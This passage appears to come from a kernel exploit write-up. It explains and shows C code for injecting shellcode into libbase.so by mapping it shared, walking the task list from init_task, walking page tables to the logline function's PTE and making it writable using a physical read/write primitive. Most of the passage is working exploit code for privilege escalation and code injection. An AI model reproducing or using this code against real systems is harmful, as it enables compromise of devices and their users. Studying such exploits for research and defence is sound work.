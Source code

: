 And how do we inject code? To inject code into `libbase.so` we map it with the `MAP_SHARED` flag and we look for the PTE logline method.

```C
/* mmap libbase.so for injecting code */
char *libbase = mmap((void *) NULL, st.st_size, PROT_READ, MAP_SHARED|MAP_POPULATE, fd_libbase, 0);

...

/* search logline function */
char *off = memmem(libbase, st.st_size, logline, 576);
```

To achieve this we have to find `current->mm->pgd` and perform a MMU walk, this is in heap and heap is linear mapping, we can do `virt_to_phys` to take advantage of our r/w phys. Then we search our current process to going through `init_task` until we find it. Next, is to put with write permissions on the PTE logline method and inject this [shellcode](https://gist.github.com/soez/bbbd136c3c138fcecc2add30d49adac1).

```C
char comm[16];
uint64_t task = 0;
uint64_t ptask = init_task;
/* search current task */
while (task != init_task) {

	/* replace tlb cache */
	replace_tlb();

	task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
	
	*(uint64_t *)(comm) = read64(task + OFFSET_COMM);
	*(uint64_t *)(comm + 8) = read64(task + OFFSET_COMM + 8);
	
	printf("%016lx -> %s\n", task, comm);
	
	if (!strncmp(comm, "exp1337", 7)) {
		break;
	}
	
	ptask = task;
}

...

/* mmu walk */
uint64_t mm = read64(task + OFFSET_MM);
uint64_t pgd = read64(mm + OFFSET_PGD);

...

uint32_t offset_logline = (uint64_t) off & 0xfff;
uint64_t offset_pte = get_directory((uint64_t) off >> (12 + 9 * 0));
uint64_t offset_pmd = get_directory((uint64_t) off >> (12 + 9 * 1));
uint64_t offset_pud = get_directory((uint64_t) off >> (12 + 9 * 2));

...

uint64_t pud = read64(pgd + offset_pud * 8);
uint64_t pmd = read64(phys_to_virt(((pud >> 12) << 12) & 0xffffffffff, true) + offset_pmd * 8);
uint64_t pte_logline = read64(phys_to_virt(((pmd >> 12) << 12) & 0xffffffffff, true) + offset_pte * 8);

/* replace tlb cache */
replace_tlb();
```
